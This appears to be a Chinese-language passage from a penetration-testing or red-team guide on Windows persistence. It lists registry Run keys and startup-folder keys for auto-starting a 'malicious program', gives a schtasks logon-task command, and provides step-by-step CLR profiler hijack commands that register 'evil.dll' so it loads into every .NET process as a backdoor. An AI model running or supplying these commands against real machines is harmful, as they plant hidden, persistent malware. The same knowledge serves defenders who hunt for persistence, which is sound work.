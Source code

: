 注册表自启动键值位置：

```undefined
修改自动项，达到开机自启动恶意程序
用户：
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
管理员：
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run
```

**开始菜单启动项**

指示启动文件夹的位置，其中User Shell Folders优先于Shell Folders。

```sql
修改注册表，可以修改开始菜单启动项
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\User Shell Folders
```

**计划任务**

通过Window系统的任务计划程序功能实现定时启动某个任务程序，Windows下计划任务的命令有：at和schtasks，其中at命令在win7等高版本windows中不能将任务放在前台执行，也就是只会打开一个后台进程，而schtasks是将定时的任务在前台执行。

```sql
图形化工具：taskschd.msc
命令行工具：schtasks.exe
SCHTASKS /parameter [arguments]
/Create         创建新计划任务
/Delete         删除计划任务
/Query          显示所有计划任务
/Run            运行计划任务
/End            中止当前正在运行的计划任务
比如:
cmd> SCHTASKS /Create /TN update /TR xxx(要执行的命令)  /DELAY ONLOGON /F /RL HIGHEST
```

### 4.clr hijack

CLR(Common Language Runtime公共语言运行库)和Java虚拟机一样是一个运行时环境，是一个可由多种编程语言使用的运行环境。CLR是 .Net Framework的主要执行引擎，无需管理员权限的后门，并能够劫持所有.Net程序，执行有些程序时会默认会调用.Net程序，从而使我们的后门自动触发。

```javascript
cmd> SET COR_ENABLE_PROFILING=1
cmd> SET COR_PROFILER={11111111-1111-1111-1111-111111111111}   //{11111111-1111-1111-1111-111111111111}表示CLSID可设置为任意数值，只要和系统常用CLSID不冲突
cmd> SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\lceServe  //新建子项{11111111-1111-1111-1111-111111111111}\lceServe
cmd> REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F    //新建REG_SZ类型键值ThreadingModel:Apartment
cmd> REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\evil.dll" /F  //修改默认路径值为evil.dll"的路径
cmd> powershell //启动powershell时执行目标dll
PS：需要注册为全局变量，不然只能在这个cmd窗口劫持：
cmd> SETX COR_ENABLE_PROFILING=1 /M
cmd> SETX COR_PROFILER={11111111-1111-1111-1111-111111111111} /M

自动化工具：CLR-Injection.bat
```
